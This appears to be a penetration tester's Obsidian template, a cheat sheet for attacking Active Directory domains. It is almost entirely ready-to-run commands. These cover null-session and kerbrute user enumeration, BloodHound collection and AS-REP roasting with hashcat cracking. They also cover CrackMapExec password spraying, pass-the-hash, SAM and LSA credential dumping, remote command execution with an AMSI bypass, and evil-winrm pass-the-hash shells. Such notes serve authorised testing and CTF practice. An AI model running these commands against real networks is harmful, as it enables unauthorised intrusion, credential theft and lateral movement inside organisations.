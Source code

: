# Active Directory
Extra attacks [Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
## User Enum

### Enum4Linux
```bash
enum4linux -U <% tp.frontmatter.dc_ip %>  | grep "user:" | awk -F'[][]' '{print $2}' | tee users
```

### RPCClient 
**Null session**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $2}' | tee users
```

**If you would like all RIDs**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $4}' | tee RIDs
```

**Query each user for additional information**
```
cat RIDs | while read rid; do rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c "queryuser $rid"; done
```

**Get all groups**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomgroups'
```

## Kerbrute
**Change wordlist if you  have put together a custom one**
```bash
kerbrute userenum -d <% tp.frontmatter.domain %> --dc <% tp.frontmatter.dc_ip %> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

## Bloodhound
### Start server
#### Start Neo4j server
```bash
sudo neo4j console
```

#### Start bloodhound
```bash
bloodhound
```

### Gathering data
#### Sharphound
Download [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```powershell
Import-Module .\SharpShound.ps1
```

##### Collection data
```powershell
Invoke-BloodHound -CollectionMethod ALL -Domain <%tp.frontmatter.domain %> -ZipFileName file.zip
```

#### Python bloodhound
```bash
sudo bloodhound-python -u '<user>' -p '<password>' -ns <% tp.frontmatter.dc_ip %> -d <% tp.frontmatter.domain %> -c all --zip
```

## Attacking users

### GetNPUsers

```bash
GetNPUsers.py '<% tp.frontmatter.domain %>/' -usersfile users -format hashcat -outputfile hashes -dc-ip <% tp.frontmatter.dc_ip %>
```

#### Hashcat
```bash
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
```

### CrackMapExec
#### Generic basic command
```bash
crackmapexec <protocol> <ip/cidr> -u <user> -d <domain> -p <pass>
```

#### Check creds against SMB
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password>
```

#### List shares
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing winrm
```bash
sudo crackmapexec winrm <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing multiple users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user_txt> -p <password>
```

#### Using Hash
```bash
crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -H <NT Hash> --local-auth
```

#### Using Hash dump SAM
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
```

#### Using Hash sump LSA
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
```

#### Discovering more users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --users
```

#### Logged on users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --loggedon-users
```

#### Execute command
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd>
```

#### AMSI bypass
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd> --amsi-bypass <path_payload>
```

### Evil winrm
#### Passing hash
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -H <NTLM>
```

#### Using creds
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -p <pass>
```

#### Commands with evil-winrm shell
```powershell
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
